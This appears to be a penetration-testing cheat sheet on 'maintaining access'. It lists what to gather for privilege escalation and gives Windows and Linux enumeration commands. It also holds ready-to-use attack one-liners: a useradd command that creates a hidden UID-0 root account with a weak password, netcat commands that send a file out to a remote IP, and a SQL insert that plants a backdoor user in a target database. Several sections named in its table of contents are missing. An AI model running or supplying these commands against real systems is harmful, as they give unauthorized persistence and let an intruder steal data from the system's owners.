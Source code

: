 # Maintaining Access
## Table of Contents
* [Information to Gather for Privilege Escalation](#information-to-gather-for-privilege-escalation)
* [Gathering Information on a Windows System](#gathering-information-on-a-windows-system)
* [Gathering Information on a Linux System](#gathering-information-on-a-linux-system)
* [One-liner: useradd and chpasswd](#one-liner-useradd-and-chpasswd)
* [Dump Passwords](#dump-passwords)
* [Find Password Files](#find-password-files)
* [Find Emailboxes](#find-emailboxes)
* [Get Network Connections](#get-network-connections)
* [Exfil via Netcat](#exfil-via-netcat)

## Privilege Escalation
### Information to Gather for Privilege Escalation
| Information | Benefit to Privilege Escalation |
| ----------- | ------------------------------- |
| User Context |Establish who you are before working towards who you want to be. |
| Hostname | Discover the system’s role, naming convention, OS, etc. |
| OS Version | Find matching kernel exploits. |
| Kernel Version | Find matching kernel exploits (exploit the core of the OS). |
| System Architecture | Find matching exploits. |
| Processes and Services | Determine which are running under a privilege account and vulnerable to a known exploit and/or configured with weak permissions. |
| Network Information | Identify pivot options to other machines/networks (adapter configs, routes, TCP connections and their process owners), and determine if anti-virus or virtualization software is running. |
| Firewall Status and Rules | Determine if a service blocked remotely is allowed via loopback; find rules that allow any inbound traffic. |
| Scheduled Tasks | Identify automated tasks running under an administrator-context; find file-paths to files with weak permissions. |
| Programs and Patch Levels | Find matching exploits; HotFixId and InstalledOn represent quality of patch mgmt; qfe = quick fix engineering. |
| Readable/Writable Files and Directories | Find credentials and/or files (that run under a privileged account) that can be modified/overwritten: look for files readable and/or writable by “Everyone,” groups you’re part of, etc. |
| Unmounted Drives | Find credentials. | 
| Device Drivers and Kernel Modules | Find matching exploits. |
| AutoElevate Settings and Binaries | Find settings and/or files that run as the file owner when invoked. If AlwaysInstallElevated is enabled, exploit via a malicious .msi file. |

### Gathering Information on a Windows System
```bash
whoami # print my current user context
net user victor # print my group memberships, password policy, etc.   
net user # print other accounts on this system
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

### Gathering Information on a Linux System
```bash
whoami # output shows your current user context
id # print my current user context, uid, and gid
cat /etc/passwd # print other accounts on this system
hostname
uname -a # print kernel version and system architecture
cat /etc/issue # print OS version
cat /etc/*-release # print OS version
netstat -pant 
```

## Persistence
### Add a new user
```bash
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 -m victor
```

## Effect
### Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

### Add a new user to a SQL database
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```